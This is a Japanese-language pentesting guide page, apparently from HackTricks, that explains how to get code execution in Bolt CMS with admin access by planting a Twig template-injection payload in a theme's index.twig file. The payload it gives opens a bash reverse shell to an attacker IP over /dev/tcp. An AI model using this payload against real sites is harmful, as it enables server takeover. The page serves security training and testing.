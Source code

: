 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

管理者としてログインした後（/botに行ってログインプロンプトにアクセス）、Bolt CMSでRCEを取得できます：

- `Configuration` -> `View Configuration` -> `Main Configuration`を選択するか、URLパス`/bolt/file-edit/config?file=/bolt/config.yaml`に移動します
- テーマの値を確認します

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- `File management` -> `View & edit templates`を選択します
- 前のステップで見つけたテーマベース（この場合は`base-2021`）を選択し、`index.twig`を選択します
- 私の場合、これはURLパス/bolt/file-edit/themes?file=/base-2021/index.twigにあります
- [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php)を介してこのファイルにペイロードを設定します。例：`{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- 変更を保存します

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- `Maintenance` -> `Clear the cache`でキャッシュをクリアします
- 再度通常のユーザーとしてページにアクセスすると、ペイロードが実行されるはずです

{{#include ../../banners/hacktricks-training.md}}
